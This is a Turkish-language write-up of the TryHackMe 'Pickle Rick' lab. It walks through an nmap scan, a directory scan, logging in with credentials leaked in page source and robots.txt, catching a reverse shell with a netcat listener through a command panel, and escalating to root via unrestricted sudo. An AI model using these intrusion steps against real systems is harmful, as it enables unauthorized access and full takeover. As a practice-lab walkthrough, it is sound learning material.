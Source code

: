 ```yaml
---
title: 'TryHackMe | Pickle Rick WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [command execution, sudo]
render_with_liquid: false
---
```


Bu yazımda, TryHackMe platformunda yer alan "Pickle Rick" isimli meydan okumayı çözeceğiz. Öncelikle hedefi tanımak adına nmap ile bir port taraması yapalım. Daha sonra açık portlara ve üzerinde çalışan servislere göre yolumuzu çizmeye başlayabiliriz.

```console
$ nmap -sV -sC -T4 10.10.164.239
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 26:d5:4a:c3:63:84:c5:38:ed:e2:5c:91:76:91:55:5c (RSA)
|   256 d1:01:87:e1:31:38:f3:9b:0f:a1:25:32:53:3a:80:2b (ECDSA)
|_  256 15:eb:64:9f:c4:0f:28:90:09:05:84:cd:e8:9a:0d:a0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tarama sonucunda 22 (SSH) ve 80 (HTTP) numaralı portların açık olduğunu öğrendik. Çalışan servislerin sürümlerinden kaynaklanan herhangi bir zafiyet bulunmadığından doğrudan HTTP servisine yöneliyorum.

```html
  <!--
    Note to self, remember username!
    Username: ********
  -->
```

Ana sayfanın kaynak kodunda bir kullanıcı adı buldum. Kayıt ettikten sonra dirsearch ile bir dosya/dizin taraması yapmaya karar verdim.

```console
[08:53:12] 200 -  589B  - /assets/
[08:53:41] 200 -  455B  - /login.php
[08:54:02] 200 -   17B  - /robots.txt
```

Tarama sonucunda bir kullanıcı giriş sayfası olduğunu öğrendik. Daha önce bir kullanıcı adı bulmuştuk parolası ise robots.txt dosyasında bulunuyor.

Giriş yaptıktan sonra sistemde komutlar çalıştırabileceğimiz bir panel ile karşılaşıyoruz. netcat aracını kullanarak bir reverse shell alacağım.

```console
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.21.66.61] from (UNKNOWN) [10.10.164.239] 50094
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Bağlantıyı elde ettikten sonra bulduğumuz dizinde ilk malzemeyi buluyoruz. Aslında bu görev pekte önemli değil, ben sadece yetki yükseltmek istiyorum. "sudo -l" komutunu kullandığımızda herhangi bir kullanıcının yetkisinde istediğimiz komutu çalıştırabileceğimizi görüyoruz.

```console
www-data@ip-10-10-164-239:/var/www/html$ sudo -l
Matching Defaults entries for www-data on ip-10-10-164-239:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-164-239:
    (ALL) NOPASSWD: ALL
```

root kullanıcısı olarak bash'e geçiş yapıyor, böylece yetki yükseltmiş oluyoruz.
```console
www-data@ip-10-10-164-239:/var/www/html$ sudo bash
root@ip-10-10-164-239:/var/www/html# cd /root
root@ip-10-10-164-239:~# ls
3rd.txt  snap
```
